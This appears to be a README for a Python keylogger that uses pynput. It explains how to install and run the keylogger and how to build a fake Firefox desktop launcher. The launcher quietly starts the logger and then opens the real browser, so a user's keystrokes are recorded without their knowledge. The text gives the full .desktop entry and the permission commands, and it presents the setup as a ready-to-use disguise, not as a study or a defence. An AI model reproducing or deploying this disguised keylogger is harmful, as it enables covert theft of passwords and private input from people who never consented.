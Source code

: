# Keylogger
### Dependencies:
To run the keylogger on a linux system, first ensure that pynput is installed on the system. If it is not, then install it using pip:
```
pip install pynput
```

That should be the only dependency. 

---
### Run the Script:
To run the script use this command:
```
python3 keylogger.py &
```
To stop the script from executing, simply press the ESC key. The log will be contained in the same folder as the keylogger.py by the name "log_keys.log".

---
### Fake a Desktop Icon in Linux:
To create a fake icon in linux first begin by putting the script in your home folder for ambiguitys. Then create a file like this:
```
nano ~/Desktop/firefox.desktop
```
Now paste the below code into the file:
```
[Desktop Entry]
Name=Firefox
Exec=sh -c "python3 ~/keylogger.py & firefox; kill $!"
Type=Application
Icon=firefox
```
This will create an icon on your desktop that will run the keylogger script from the home directory and then open firefox as if nothing hppened. You may need to change some permissions. Run these:
```
chmod +x ~/keylogger.py ~/Desktop/firefox.desktop
```
Lastly, you'll need to right click the icon and click "Allow Launching" or whatever terminology allows the script. There did not appear to be a way to do this last part without actually right clicking with a mouse, and would seem to be a security feature that prevents an attacker from doing this with commands only.

Now you should see the icon in full color. Double click the icon, and begin typing in the browser. This setup will record all activity from inside the browser only. When you are done, you can press ESC key to end the keylogging, or simply exit firefox. Read the file located in the same directory as keylogger.py titled "log_keys.log". NOTE: the log file is deleted every time the program stats up.

---
#### References:
I used this site as a guide on how to use pynput:
https://medium.com/analytics-vidhya/python-keylogger-tutorial-ef178d02f24a